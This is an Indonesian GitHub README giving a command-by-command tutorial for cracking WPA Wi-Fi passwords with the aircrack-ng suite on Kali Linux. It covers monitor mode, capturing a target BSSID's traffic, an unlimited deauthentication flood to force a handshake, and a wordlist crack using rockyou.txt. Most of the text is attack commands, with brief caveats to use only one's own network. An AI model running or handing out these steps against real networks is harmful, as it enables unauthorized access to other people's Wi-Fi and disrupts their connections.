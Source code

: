 # hacking-wifi >>> airmon-ng >>> aerodump-ng >>> aircrack-ng 

sekedar catatan jika lupa </p>
untuk memulai percobaan harap memakai jaringan wifi kalian terlebih dahulu..</p>
ini bekerja di system os linux </p>
untuk cara ini secara default menggunakan kali-linux</p>
## TUTORIAL HACK WIFI + CRACKING 

untuk membuka ip address ketikkan perintah :
```bash
ip addr
```

pengaturan semula wificard biasanya dalam mode managed 
bisa di cek lewat perintah :
```bash
iwconfig
```
untuk menghindari konfik jaringan (refresh) bisa dengan perintah :</p>
catatan : ini mematikan semua koneksi internet!
```bash
sudo airmon-ng check kill
```
untuk mengubah dari mode managed ke mode monitor :
```bash
sudo airmon-ng start wlan0
```
ketikkan perintah di bawah ini untuk cek apakah sudah dalam mode monitor atau tidak
```bash
iwconfig
```
cek nama interface wifi - wificard : umunnya adalah wlan0/wlan0mon
```bash
sudo airmon-ng
```
untuk memonitoring jaringan wifi yang tersedia :</p> 
(ctrl+c) untuk stop scan 
```bash
sudo airodump-ng wlan0
```
jangan lupa untuk mencatatat bssid target dan channelnya...
</p>
catat bssid target contoh  : 98:F4:28:47:85:C8 >>> berada di channel : 11</p>
<p>
jika sudah kita saring/filter single target memakai perintah :

```bash
sudo airodump-ng wlan0 -d 98:F4:28:47:85:C8
```
sekarang waktunya menyimpan + menjalankan progam jahatnya..
sebagai contoh seperti ini : 
```bash
sudo airodump-ng -w hack1 -c 11 --bssid 98:F4:28:47:85:C8 wlan0
```
catatan : 
* opsi -w untuk menyimpan file 
* opsi hack1 : nama file
* opsi -c : channel wifi
* opsi --bssid : alamat bssid target (ganti bssid target yg di atas hanyalah sebuah contoh saja)
* opsi wlan0 nama perangkat wifi/card

setelah dirasa sudah paham bukalah terminal baru / tab baru
ketikkan :
```bash
sudo aireplay-ng --deauth 0 -a 98:F4:28:47:85:C8 wlan0 
```
jika berhasill sniff jaringan ada yg berjabat tangan
otomatis di terminal pertama akan ada tulisan </p>
(wpa handsake)
atau tulisan AEPOL / apa ya saya lupa ...</p>
itu berarti program sdh berhasil mendapatkan jabat-tangannya.
</p>
harap di ingat kita hanya butuh 2 tab terminal yg berjalan..
</p>
silahkan close semua program di terminalnya,
</p>
bisa menggunakan >>> ctrl+c 
</p>
sekarang waktunya ganti program aircrack
</p>
perlu diketahui file yg tersimpan biasanya tersimpan di path HOME/
</p>
untuk mengetahui tentang informasi hasil snif tsb 
</p>
bukalah file - contoh file hack1.pap dengan program wireshark
</p>
bisa dilakukan dengan terminal di path nya:

```bash
wireshark hack1-01.cap
```
atau bisa membuka dengan doble click di filenya
</p>
opsional : untuk menghidupkan jaringan internet seperti semula :

```bash
sudo airmon-ng stop wlan0 - monitor disable
```
sekarang kita akan menjalankan program AIRCRACK
</p>
ketikkan :

```bash
sudo aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt
```
gantilah nama file hack1-01.cap dengan file yg tersimpan di direktori kalian </p>
catatan :</p>
jika file rockyou.txt blm ada kalian bisa ektrak dlu file tsb</p>
cari di direktori /usr/share/wordlist/</p>

tunggu beberapa saat aircrack mengidentifikasi sandi </p>
hasil crack sandi berbeda-beda tergantung kesulitannya</p>
semakin rumit sandi itu akan semakin lama </p>
apalagi sandi tsb di atas 10 karakter dan angka</p> 
jadi jangan berharap itu bs berhasil cepat dan sempurna...</p>




opsional : tambahan untuk mengecek wifi adapter kamu support inject atau tidak nya :
```bash
aireplay-ng -9 wlan0
```
```bash
iw list | grep AP$
```

sekian catatan informasi untuk menjalankan sebuah program aircrack dan kawan2nya....</p>

## DILARANG KERAS UNTUK MELAKUKAN TINDAK KEJAHATAN
